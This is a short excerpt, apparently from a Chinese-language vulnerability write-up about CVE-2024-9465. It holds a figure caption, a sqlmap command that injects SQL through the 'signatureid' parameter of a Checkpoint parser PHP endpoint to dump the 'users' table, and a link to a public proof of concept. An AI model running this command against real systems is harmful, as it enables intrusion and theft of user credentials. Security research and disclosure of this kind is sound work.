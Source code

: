    
图 23. 请求日志  
```
python3 sqlmap.py -u "https://<ip_address>/bin/configurations/parsers/Checkpoint/CHECKPOINT.php?action=im port&type=test&project=pandbRBAC&signatureid=1" -p signatureid -T users --dump
```  
  
poc:https://github.com/horizon3ai/CVE-2024-9465.git  
  
  
  
  
  
  
  
  
  
  
  
